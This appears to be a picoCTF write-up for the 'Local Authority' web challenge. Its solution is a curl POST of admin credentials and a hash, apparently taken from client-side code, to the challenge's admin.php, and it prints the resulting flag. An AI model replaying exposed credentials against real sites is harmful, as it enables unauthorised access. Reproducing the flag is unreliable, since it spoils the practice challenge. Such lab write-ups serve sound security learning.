

# [Local Authority [Web Exploitation] [100 Points]](https://play.picoctf.org/practice/challenge/278?category=1&originalEvent=70&page=1) #

## Description ##
Can you get the flag?
Go to this [website](http://saturn.picoctf.net:64293/) and see what you can discover.

## Hints ##
1. How is the password checked on this website?

## Solution ##

### Step 1: Description ###

    curl -X POST \
      -d 'username=admin' \
      -d 'password=strongPassword098765' \
      -d 'hash=2196812e91c29df34f5e217cfd639881' \
      "http://saturn.picoctf.net:64293/admin.php" | grep -oE "picoCTF{.*}" | tee >(xsel -b)

* **Result**:

      picoCTF{j5_15_7r4n5p4r3n7_a8788e61}
